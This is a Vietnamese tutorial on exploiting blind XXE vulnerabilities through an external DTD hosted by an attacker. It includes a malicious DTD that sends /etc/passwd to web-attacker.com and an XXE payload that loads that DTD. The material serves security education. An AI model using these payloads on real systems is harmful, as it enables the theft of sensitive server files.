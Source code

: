 # Overview

Phát hiện một lỗ hổng XXE blind thông qua các kỹ thuật out-of-band là rất tốt, nhưng nó không thực sự chỉ ra cách lỗ hổng có thể được khai thác. Điều mà một attacker thực sự muốn đạt được là truyền tải dữ liệu nhạy cảm. Điều này có thể được thực hiện thông qua lỗ hổng XXE mù, nhưng nó bao gồm kẻ tấn công chứa một DTD độc hại trên một hệ thống mà họ kiểm soát, sau đó triệu gọi DTD bên ngoài từ trong tải XXE trong-band.

Dưới đây là một ví dụ về DTD độc hại để truyền tải nội dung của tập tin /etc/passwd:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

DTD này thực hiện các bước sau:

- Xác định một entity XML parameter có tên `file`, chứa nội dung của tập tin `/etc/passwd`.

- Xác định một entity XML parameter có tên `eval`, chứa một khai báo động của một entity XML parameter khác có tên `exfiltrate`. Entity `exfiltrate` sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP đến máy chủ web của attacker, chứa giá trị của entity file trong chuỗi truy vấn URL.

- Sử dụng entity `eval`, làm cho khai báo động của entity `exfiltrate` được thực hiện.

- Sử dụng entity `exfiltrate`, để giá trị của nó được đánh giá bằng cách yêu cầu URL đã chỉ định.

Attacker sau đó phải chứa DTD độc hại trên một hệ thống mà họ kiểm soát, thông thường là bằng cách tải nó lên máy chủ web của riêng mình. Ví dụ, attacker có thể cung cấp DTD độc hại theo đường dẫn URL sau:

`http://web-attacker.com/malicious.dtd`

Cuối cùng, attacker phải gửi tải XXE sau đây đến ứng dụng có lỗ hổng:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Tải XXE này khai báo một entity XML parameter có tên `xxe` và sau đó sử dụng entity trong DTD. Điều này sẽ khiến trình phân tích XML truy xuất DTD bên ngoài từ máy chủ của attacker và giải thích nó trực tiếp. Các bước được xác định trong DTD độc hại sau đó được thực hiện, và tập tin `/etc/passwd` được truyền tải đến máy chủ của kẻ tấn công.
